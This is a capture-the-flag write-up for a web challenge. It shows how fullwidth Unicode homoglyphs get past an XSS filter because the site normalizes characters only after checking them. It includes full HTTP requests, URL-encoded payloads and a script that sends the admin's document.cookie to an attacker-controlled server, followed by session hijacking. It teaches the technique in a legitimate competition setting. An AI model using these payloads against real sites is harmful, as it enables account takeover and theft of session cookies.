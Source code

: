 # Chanreaction
**Category: Web**

The only thing available to do on this page was to create an account. Let's do that and log in:

<img src="images/login.png" width="50%"></img>

The login page also had a link to a developer portal, let's check that out:

<img src="images/dev.png" width="50%"></img>

The site prevents us from accessing `/admin` 😢.

Let's look at `/devchat` in the meanwhile. Here's a particularly interesting snippet of the chat:

<img src="images/devchat.png" width="50%"></img>

Looks like there is a vulnerability where unicode is getting normalized *after* the check for malicious characters. 

If you aren't familiar, unicode normalization is a process that can be used to determine if two different unicode strings should be seen as equal. Two unicode symbols are **canonically equivalent** if they should both be displayed the same way. And two symbols have **compatible equivalence** if they look different, but represent the same abstract character. More information on [unicode.org](https://unicode.org/reports/tr15/).

Next, we'll take a look at our profile page:

<img src="images/profile.png" width="50%"></img>

The note at the bottom is attention grabbing. If we can make an admin visit our page, perhaps we can use some XSS to steal their cookies?

First, we can do a test to see if the `<>` characters are usable for our attack:

```http
POST /profile/5619 HTTP/2
Host: web-chainreaction-a4b5ae3b.chal-2021.duc.tf
Cookie: session=.eJwlzjsOwjAMANC7ZGaI7TiJe5nK8UdlbemEuDtIvBO8d9nzjOso2-u841H2p5etWDiSLx1kwZSYwyBNCUNoqaH31kdIeOdISp2rBtbE1kgFbJAu1FadY4nYVETjWknnTJQBQeBg1Nlg8eQknNK4Wm1qQoaj_CL3Fed_wx2kfL7grjCG.YVG6ZQ.Qb_SzTdB-r2q-f6x8CN4tEF-m2Y

username=bobbytables&aboutme=<>
```

<img src="images/error.png" width="50%"></img>

I guess not. We'll have to get around this using some unicode.

Looking at the html response for an accepted payload (I tried `test`), we can see our value goes inside the `input` tag. We'll need to remember to break outside that tag before starting the payload:

```html
<label for="aboutme" class="col-sm-2 form-label">About me</label>
<div class="col-sm-10">
  <input type="text" name="aboutme" class="form-control" id="aboutme" value="test">
</div>
```

I used a [homoglyph attack generator](https://www.irongeek.com/homoglyph-attack-generator.php) to generate a test payload of `"><script>alert(1)</script>` that used normalized equivalent characters for the `<` and `>` symbols. I also used a different character for the `s` since their site also blocks the string `script`. This gives us: `"＞＜Ｓcript＞alert(1)＜/Ｓcript＞`.

After url encoding:
```http
POST /profile/5619 HTTP/2
Host: web-chainreaction-a4b5ae3b.chal-2021.duc.tf
Cookie: session=.eJwlzjsOwjAMANC7ZGaI7TiJe5nK8UdlbemEuDtIvBO8d9nzjOso2-u841H2p5etWDiSLx1kwZSYwyBNCUNoqaH31kdIeOdISp2rBtbE1kgFbJAu1FadY4nYVETjWknnTJQBQeBg1Nlg8eQknNK4Wm1qQoaj_CL3Fed_wx2kfL7grjCG.YVG6ZQ.Qb_SzTdB-r2q-f6x8CN4tEF-m2Y

username=bobbytables&aboutme=%22%EF%BC%9E%EF%BC%9C%EF%BC%B3cript%EF%BC%9Ealert(1)%EF%BC%9C/%EF%BC%B3cript%EF%BC%9E
```

Now, the page renders like:
```html
<label for="aboutme" class="col-sm-2 form-label">About me</label>
<div class="col-sm-10">
    <input type="text" name="aboutme" class="form-control" id="aboutme" value=""><Script>alert(1)</Script>">
</div>
```
And we get the popup:

<img src="images/alert.png"></img>

Now we can try again with a payload to steal the admin cookies: 

`"＞＜Ｓcript＞var i = new Image;i.src="https://[my-server-url]?"+document.cookie＜/Ｓcript＞`

Request:

```http
POST /profile/5619 HTTP/2
Host: web-chainreaction-a4b5ae3b.chal-2021.duc.tf
Cookie: session=.eJwlzjsOwjAMANC7ZGaI7TiJe5nK8UdlbemEuDtIvBO8d9nzjOso2-u841H2p5etWDiSLx1kwZSYwyBNCUNoqaH31kdIeOdISp2rBtbE1kgFbJAu1FadY4nYVETjWknnTJQBQeBg1Nlg8eQknNK4Wm1qQoaj_CL3Fed_wx2kfL7grjCG.YVG6ZQ.Qb_SzTdB-r2q-f6x8CN4tEF-m2Y

username=bobbytables&aboutme=%22%EF%BC%9E%EF%BC%9C%EF%BC%B3cript%EF%BC%9Evar%20i%20=%20new%20Image;i.src=%22https://[my-server-url]?%22%2bdocument.cookie%EF%BC%9C/%EF%BC%B3cript%EF%BC%9E
```

After clicking the report button, the admin visited my profile, and my server received the following request:

```
GET /?admin-cookie=sup3rs3cur34dm1nc00k13
```

Now we can set this cookie in our browser, and try going to the admin page again:

<img src="images/admin.png" width="50%"></img>

`DUCTF{_un1c0de_bypass_x55_ftw!}`